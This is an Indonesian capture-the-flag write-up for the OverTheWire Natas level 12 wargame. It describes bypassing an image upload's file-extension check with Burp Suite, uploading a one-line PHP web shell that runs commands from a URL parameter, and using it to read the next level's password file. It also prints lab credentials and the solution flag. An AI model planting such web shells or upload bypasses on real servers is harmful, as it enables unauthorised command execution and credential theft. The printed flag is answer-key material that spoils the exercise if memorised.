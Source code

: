 ```yaml
---
layout: default
test_level12
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas12 \
URL:      http://natas12.natas.labs.overthewire.org

# solve
- login with cred natas12:yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
- lalu disini ada sebuah form gambar jpg yang kalo kita lihat dari codenya namaa file tersebut akan dibuat secara acak dengan format jpeg
  ![alt text](docs/images/image-22.png)
- jadi saya mencoba membuat backdoor php
  ```php
  cat simple.php 
  <?php echo system($_GET['c']); ?>
  ```
- dan mencoba menguploadnya dan ketika saya coba benar saja filenya diganti menjadi extension jpeg dengan nama acak
- dan untungnya ketika saya cek di burp suite tidak terdapat encrypt apapun jadi saya mengubahnya
  ![alt text](docs/images/image-23.png)
  ![alt text](docs/images/image-24.png)
- namun pas di forward hanya extensionnya saja namun tidak apa apa karena kita cuma butuh extensionya 
  ![alt text](docs/images/image-25.png)
- dan ketika saya coba buka filenya dengan urlnya saya sudah mendapatkan RCE
  ![alt text](docs/images/image-26.png)
- dan saya hanya perlu mendapatkan file passnya
  ![alt text](docs/images/image-27.png)
  - ```?c=cat /etc/natas_webpass/natas14```

# flag
trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC